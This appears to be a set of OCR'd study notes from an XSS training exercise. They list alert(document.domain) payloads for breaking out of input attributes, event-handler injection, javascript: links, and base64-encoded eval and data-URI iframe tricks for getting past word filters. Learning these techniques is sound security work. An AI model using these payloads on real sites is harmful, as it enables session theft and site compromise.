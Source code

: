 sometimes the first character needs to be escaped to html EG:

`&#34> <script>alert(document.domain);</script>`

When you cant "<" and ">", use events such as mouse over / onChange

`aaa" onmouseover="alert(document.domain); //` here we satisy what should be in input box, close with quote, specify another value and its event
successfully injected string as below:
`<input type="text" name="p1" size="50" value="aaa" onchange="alert(document.domain);">`



A function allowing creation of a link can be XSS attacked using the javascript schema, the link will execute code instead of loading site
javascript:alert(document.domain);


### Word filtering
when words are filtered out: Via the Stack Overflow question Base64 encoding and decoding in client-side Javascript we find that all modern browsers have a global function galled atob() to decode Base64 strings, read more on Mozilla Developer Network. To execute a string as JavaScript, use eval(). 

`"><script>eval(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='));</script>`


If the words script, style and on aren't allowed, we have to think about something else this time. Apparently it's possible to encode JavaScript as Base64 and make it execute as an iframe src. From the Stack Overflow question Is it possible to "fake" the src attribute of an iframe? we can read that it's possible to do:

:::html
`<iframe src="data:text/html;base64, .... base64 encoded HTML data ....">`
Read more about data URIs on Mozilla Developer Network. The HTML data we want to use is:

:::html
`<script>parent.alert(document.domain);</script>`
parent. is needed because we want the alert to execute in the context of the parent's window. Encoding it as Base64 with the Character Encoding Calculator results in:

PHNjcmlwdD5wYXJlbnQuYWxlcnQoZG9jdW1lbnQuZG9tYWluKTs8L3NjcmlwdD4
The code that we will then put into the search box to finish the level is:

:::html
`"><iframe src="data:text/html;base64,PHNjcmlwdD5wYXJlbnQuYWxlcnQoZG9jdW1lbnQuZG9tYWluKTs8L3NjcmlwdD4="></iframe>`
